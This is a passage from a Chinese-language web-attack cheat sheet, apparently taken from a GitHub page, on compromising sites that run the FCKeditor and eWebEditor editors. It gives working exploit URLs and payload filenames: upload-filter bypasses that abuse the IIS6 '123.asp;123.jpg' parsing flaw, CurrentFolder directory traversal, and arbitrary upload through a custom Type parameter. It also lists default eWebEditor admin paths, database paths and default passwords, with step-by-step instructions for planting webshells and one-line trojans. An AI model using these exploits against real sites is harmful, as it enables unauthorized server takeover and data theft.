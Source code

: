 	※不过空格只支持win系统 *nix是不支持的[1.php和1.php+空格是2个不同的文件]Note:http://pstgroup.blogspot.com/2007/05/tipsfckeditor.html
	FCKeditor 文件上传“.”变“_”下划线的绕过方法（二）
	影响版本:=>2.4.x的最新版已修补脆弱描述:由于Fckeditor对第一次上传123.asp;123.jpg 这样的格式做了过滤。也就是IIS6解析漏洞。上传第一次。被过滤为123_asp;123.jpg 从而无法运行。
	但是第2次上传同名文件123.asp;123.jpg后。由于”123_asp;123.jpg”已经存在。
	文件名被命名为123.asp;123(1).jpg …… 123.asp;123(2).jpg这样的编号方式。
	所以。IIS6的漏洞继续执行了。如果通过上面的步骤进行测试没有成功，可能有以下几方面的原因：
	1.FCKeditor没有开启文件上传功能，这项功能在安装FCKeditor时默认是关闭的。如果想上传文件，FCKeditor会给出错误提示。
	2.网站采用了精简版的FCKeditor，精简版的FCKeditor很多功能丢失，包括文件上传功能。
	3.FCKeditor的这个漏洞已经被修复。
	FCKeditor 新闻组件遍历目录漏洞
	影响版本:Aspx与JSP版FCKeditor脆弱描述：如何获得webshell请参考上文“TYPE自定义变量任意上传文件漏洞”
	攻击利用:
	修改CurrentFolder参数使用 ../../来进入不同的目录
	/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../..%2F&NewFolderName=aspx.asp
	根据返回的XML信息可以查看网站所有的目录。
	/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=%2F
	/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=%2F
	TYPE自定义变量任意上传文件漏洞
	影响版本: 较早版本
	脆弱描述：通过自定义Type变量的参数，可以创建或上传文件到指定的目录中去，且没有上传文件格式的限制。攻击利用:
	/FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp
	打开这个地址就可以上传任何类型的文件了，Shell上传到的默认位置是:
	http://www.xxxx.com/UserFiles/all/1.asp
	Type=all 这个变量是自定义的,在这里创建了all这个目录,而且新的目录没有上传文件格式的限制.比如输入:
	/FCKeditor/editor/filemanager/browser/default/browser.html?Type=../&Connector=connectors/asp/connector.asp
	网马就可以传到网站的根目录下.Note:如找不到默认上传文件夹可检查此文件:
	fckeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  #### eWebEditor
	eWebEditor 基础知识
	默认后台地址：
	/ewebeditor/admin_login.asp
	/WebEdior/admin/login.aspx
	建议最好检测下admin_style.asp文件是否可以直接访问默认数据库路径：
	[PATH]/db/ewebeditor.mdb
	[PATH]/db/db.mdb
	[PATH]/db/%23ewebeditor.mdb
	默认密码：
	admin/admin888 、 admin/admin、 admin/123456 、admin/admin9991、点击“样式管理”—可以选择新增样式，或者修改一个非系统样式，将其中图片控件所允许的上传类型后面加上|asp、|asa、|aaspsp或|cer，只要是服务器允许执行的脚本类型即可，点击“提交”并设置工具栏—将“插入图片”控件添加上。而后—预览此样式，点击插入图片，上传WEBSHELL，在“代码”模式中查看上传文件的路径。
	2、当数据库被管理员修改为asp、asa后缀的时候，可以插一句话木马服务端进入数据库，然后一句话木马客户端连接拿下webshell
	3、上传后无法执行？目录没权限？帅锅你回去样式管理看你编辑过的那个样式，里面可以自定义上传路径的！！！
	4、设置好了上传类型，依然上传不了麽？估计是文件代码被改了，可以尝试设定“远程类型”依照6.0版本拿SHELL的方法来做（详情见下文↓），能够设定自动保存远程文件的类型。
	5、不能添加工具栏，但设定好了某样式中的文件类型，怎么办？↓这么办！
	(请修改action字段)
	Action.html
	6、需要突破上传文件类型限制么？Come here! —>> 将图片上传类型修改为“aaspsp;”(不含引号)，将一句话shell文件名改为“1.asp;”(不含引号)并上传即可。—>本条信息来源：微笑刺客
	eWebEditor 可下载数据库，但密文解不开
	脆弱描述：
	当我们下载数据库后查询不到密码MD5的明文时，可以去看看webeditor_style(14)这个样式表，看看是否有前辈入侵过 或许已经赋予了某控件上传脚本的能力，构造地址来上传我们自己的WEBSHELL.
	攻击利用:
	比如 ID=46 s-name =standard1构造 代码: ewebeditor.asp?id=content&style=standardID和和样式名改过后
	ewebeditor.asp?id=46&style=standard1
	eWebEditor遍历目录漏洞